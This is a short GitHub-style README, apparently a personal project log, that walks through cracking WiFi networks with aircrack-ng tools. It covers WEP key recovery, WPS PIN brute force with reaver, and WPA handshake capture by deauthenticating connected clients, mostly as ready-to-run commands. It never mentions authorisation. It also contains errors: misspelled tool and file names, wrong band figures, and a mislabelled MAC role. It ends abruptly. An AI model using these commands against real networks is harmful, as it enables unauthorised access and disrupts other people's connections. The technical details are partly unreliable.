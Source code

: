 # Network Hacking (wifi)

## Objective
Network Hacking and gaining access to Wifi networks and cracking them.

### Skills Learned

- Sniffing on 5Gz and 2.5Gz wireless networks
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng
- Crunch

### Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

>The mode will be Monitor now

- Sniffing on 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

- Sniffing packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

- Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
- Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
- Copy the key and remove the : and that would be the wifi password.

### Steps for WPA/WPA2

**Works for some routers with WPS**
- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```

- If Reaver finds the pin then the password will be available for the Wifi network. 
>Not all routers will be cracked with these steps.

**Method for capturing handshake**

1. Find the BSSID of the network with ifconfig
2. Write a file via **airodump-ng**.
```bash
airodump-ng --bssid 30:DE:4B:AD:CC:8A --channel 161 --write wpa_handshake wlan0 
```
3. Disconnect the client from the target network to capture the handshake.
```bash
aireplay-ng --deauth 4 -a 30:DE:4B:AD:CC:8A -c EE:7B:BE:70:D6:1F wlan0
```
> The first MAC is the target and the second MAC is the USB wifi adapter

4. The handshake WPA will be saved in the file we created wpa_handshake.cap
5. We will create a wordlist of passwords possibilities using the tool **Crunch**. Then read the file
```bash
crunch 1 3 abc123 -o test_wordlist.txt
cat test_worklist.txt
```
- 


￼

